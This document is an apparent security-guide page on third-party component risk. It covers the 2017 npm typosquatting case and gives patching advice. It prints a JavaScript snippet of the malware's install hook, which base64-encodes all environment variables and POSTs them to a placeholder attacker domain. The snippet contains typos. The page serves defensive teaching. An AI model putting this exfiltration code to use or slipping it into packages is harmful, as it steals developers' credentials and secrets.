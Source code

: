 # Using Components with Known Vulnerabilities

# Description

When it comes to Third Party Management, [The OWASP Top 10 2017 A9:2017 Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities) covers this topic very well.

During the Software Development Life-cycle, it is very important to add some controls to not only document the libraries that are being used, but also to have an inventory of the versions and components that are used and where are they being used, so they are not out of date, vulnerable or deprecated.

According to the OWASP foundation, some of the risks of using third-party JavaScript code could involve:
* The loss of control over changes to the client application.
* The execution of arbitrary code on client systems.
* The disclosure or leakage of sensitive information to 3rd parties.

# Case study: Exfiltration of sensitive information via TypoSquatting 

Back in August 2017, a malicious NPM (Node Package Management) user/developer published several packages taking advantage of the so-called technique known as Typosquatting, and included malware exfiltrate environment variables and send them to a user-controlled domain (aka secret stealing).

## What is Typosquatting Anyway?
Doing some quick search on the Internet you come across the following definition from Wikipedia:

"Typosquatting, also called URL hijacking, a sting site, or a fake URL, is a form of cybersquatting, and possibly brandjacking which relies on mistakes such as typos made by Internet users when inputting a website address into a web browser. Should a user accidentally enter an incorrect website address, they may be led to any URL (including an alternative website owned by a cybersquatter).
The typosquatter's URL will usually be one of four kinds, all similar to the victim site address (e.g. example.com):
* A common misspelling, or foreign language spelling, of the intended site: exemple.com
* A misspelling based on typos: examlpe.com
* A differently phrased domain name: examples.com
* A different top-level domain: example.org
* Any abuse of the Country Code Top-Level Domain (ccTLD): example.cm by using .cm, example.co by using .co, or example.om by using .om. A person leaving out a letter in .com in error could arrive at the fake URL's website.

Once in the typosquatter's site, the user may also be tricked into thinking that they are in fact in the real site, through the use of copied or similar logos, website layouts, or content. Spam emails sometimes make use of typosquatting URLs to trick users into visiting malicious sites that look like a given bank's site, for instance."

Note that the previous definition not only applies to domain names, it can be used to deceive the user with names or strings that look very similar to what the user is looking for.

# Code examples

In this real scenario, the attacker created several npm packages with a similar name (typosquatting) to the original package, but those packages published by the threat actor, contained additional code that exfiltrated secrets and environment variables during the installation hook in npm. The malware code looked like this:

```javascript
const http        = require('http');
const querystring = require('querystring');

const host        = 'malicious-domain-goes-here';
const env         = JSON.stringify(process.env);
const data        = new Buffer(env).toString('base64');

const postData    = querystring.stringify({data});

const options    = {
    hostname: host,
    port    : 80,
    path    : '/log/',
    method  : 'POST',
    headers : {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': Buffer.byteLenght(postData)
    }
}
const req = http.request(options)
req.write(portData);
req.end();
```
As you can see in this code, the threat actor added a post-installation script that accessed environment variables and pushed them to a controlled domain. Commonly, developers store sensitive data and secrets (API keys, cloud provider credentials, ssh keys) in environment variables; by installing this package without doing a proper code review, could introduce multiple problems.

# Mitigation

Here are some good recommendations for doing a proper patching process:

* Remove unused dependencies, unnecessary features, components, files, and documentation.
* Continuously inventory the versions of both client-side and server-side components (e.g. frameworks, libraries) and their dependencies using tools like versions, DependencyCheck, retire.js, etc. Continuously monitor sources like CVE and NVD for vulnerabilities in the components. Use software composition analysis tools to automate the process. Subscribe to email alerts for security vulnerabilities related to components you use.
* Only obtain components from official sources over secure links. Prefer signed packages to reduce the chance of including a modified, malicious component.
* Monitor for libraries and components that are unmaintained or do not create security patches for older versions. If patching is not possible, consider deploying a virtual patch to monitor, detect, or protect against the discovered issue.
Every organization must ensure that there is an ongoing plan for monitoring, triaging, and applying updates or configuration changes for the lifetime of the application or portfolio.

## Risk Assessment

Vulnerabilities on some known libraries could have a low impact low whereas others could cause a large breach. Depending on the assets being protected, the impact could be low or severe.

# References

[A9:2017-Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities)

[Third Party JavaScript Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Third_Party_Javascript_Management_Cheat_Sheet.html)

[corssenv malware on the npm registry](https://blog.npmjs.org/post/163723642530/crossenv-malware-on-the-npm-registry)

[Command and Scripting Interpreter: JavaScript/JScript](https://attack.mitre.org/techniques/T1059/007/)
